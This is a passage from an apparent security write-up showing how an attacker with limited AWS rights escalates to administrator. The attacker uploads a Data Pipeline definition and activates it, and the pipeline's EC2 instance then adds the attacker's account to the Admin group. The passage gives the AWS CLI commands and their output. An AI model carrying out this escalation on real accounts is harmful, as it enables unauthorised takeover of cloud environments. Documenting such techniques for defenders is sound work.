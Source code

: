 ```json
{"pipelineId": "df-04388033NWCCTN7LJPNU"}
```

After the pipeline is created, the attacker edits the pipeline definition. While AWS spits out some warnings, the output indicates that the command did not error out and was therefore successful:

```bash
➜ aws datapipeline put-pipeline-definition --pipeline-id df-04388033NWCCTN7LJPNU --pipeline-definition file://privesc.json --region us-west-2 --profile privesc
```

```json
{
    "validationErrors": [],
    "errored": false,
    "validationWarnings": [
    {
        "id": "instance",
        "warnings": [
        "No policy attached to the role - unable to validate policy for 'adminaccess'",
        "No policy attached to the role - unable to validate policy for 'adminaccess'",
        "'terminateAfter' is missing. It is recommended to set this to avoid leaving resource running for long duration."
        ]
    },
    {
    "id": "Default",
    "warnings": [
    "'pipelineLogUri'is missing. It is recommended to set this value on Default object for better troubleshooting."
    ]
    }]
}
```

Finally, to run the pipeline, the attacker needs to activate it. If successful, this command provides no output:

```bash
> aws datapipeline activate-pipeline --pipeline-id df-04388033NWCCTN7LJPNU --region us-west-2 --profile privesc
```

It takes a couple of minutes for the EC2 instance to spin up but once it does, the command defined in the Data Pipeline definition will execute and add the attacker’s account to the Admin group. The attacker now has full administrative access to the AWS environment.